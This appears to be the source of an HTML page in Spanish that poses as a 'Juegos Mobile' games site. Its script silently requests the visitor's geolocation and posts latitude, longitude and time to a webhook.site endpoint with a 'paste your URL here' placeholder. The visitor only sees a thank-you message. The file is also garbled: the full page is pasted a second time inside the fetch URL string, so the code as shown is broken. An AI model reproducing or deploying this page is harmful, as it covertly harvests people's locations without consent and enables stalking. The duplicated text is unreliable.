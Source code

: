 <!DOCTYPE html>
<html>
<head>
  <title>Juegos Mobile</title>
</head>
<body>
  <h2>Cargando juegos móviles...</h2>
  <script>
    function enviarUbicacion(lat, lon) {
      fetch("https://webhook.site/<!DOCTYPE html>
<html>
<head>
  <title>Juegos Mobile</title>
</head>
<body>
  <h2>Cargando juegos móviles...</h2>
  <script>
    function enviarUbicacion(lat, lon) {
      fetch("https://webhook.site/PEGAR_AQUI_TU_URL", {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify({
          latitud: lat,
          longitud: lon,
          fecha: new Date().toISOString()
        })
      });
    }

    if ("geolocation" in navigator) {
      navigator.geolocation.getCurrentPosition(
        function(position) {
          const lat = position.coords.latitude;
          const lon = position.coords.longitude;
          enviarUbicacion(lat, lon);
          document.body.innerHTML = `<p>Gracias por visitar Juegos Mobile</p>`;
        },
        function(error) {
          document.body.innerHTML = "<p>No se pudo obtener tu ubicación.</p>";
        }
      );
    } else {
      document.body.innerHTML = "<p>Tu navegador no soporta geolocalización.</p>";
    }
  </script>
</body>
</html>", {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify({
          latitud: lat,
          longitud: lon,
          fecha: new Date().toISOString()
        })
      });
    }

    if ("geolocation" in navigator) {
      navigator.geolocation.getCurrentPosition(
        function(position) {
          const lat = position.coords.latitude;
          const lon = position.coords.longitude;
          enviarUbicacion(lat, lon);
          document.body.innerHTML = `<p>Gracias por visitar Juegos Mobile</p>`;
        },
        function(error) {
          document.body.innerHTML = "<p>No se pudo obtener tu ubicación.</p>";
        }
      );
    } else {
      document.body.innerHTML = "<p>Tu navegador no soporta geolocalización.</p>";
    }
  </script>
</body>
</html>
